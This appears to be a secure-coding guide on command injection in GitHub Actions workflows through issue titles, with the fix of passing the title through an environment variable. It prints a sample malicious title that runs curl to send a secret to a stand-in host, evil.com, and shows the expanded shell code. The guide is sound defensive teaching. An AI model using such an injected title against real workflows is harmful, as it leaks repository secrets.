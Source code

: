 ### Why This Is Vulnerable

When an attacker creates an issue with a malicious title:

```
Issue title: test"; curl http://evil.com?secret=$SECRET; echo "
```

The workflow would expand to:

```bash
if [[ "test"; curl http://evil.com?secret=$SECRET; echo "" == *"bug"* ]]; then
  echo "Issue is about a bug!"
fi
```

This executes the injected commands:
1. Breaks out of the string with `"`
2. Ends the statement with `;`
3. Executes arbitrary commands (`curl`)
4. Can exfiltrate secrets or compromise the workflow

### Secure Approach (USE THIS)

**SECURE CODE**:

```yaml
# SECURE - Use environment variables
steps:
  - name: Safe approach
    env:
      TITLE: ${{ github.event.issue.title }}
    run: |
      if [[ "$TITLE" == *"bug"* ]]; then
        echo "Issue is about a bug!"
      fi
```

**Why This Is Secure**:

Even with a malicious title:
```
Issue title: test"; curl http://evil.com; echo "
```

The environment variable `TITLE` contains the entire string as data:
```bash
TITLE='test"; curl http://evil.com; echo "'
if [[ "$TITLE" == *"bug"* ]]; then
  echo "Issue is not about a bug"
fi
```

The malicious characters are treated as literal string content, not executable code.

## Usage

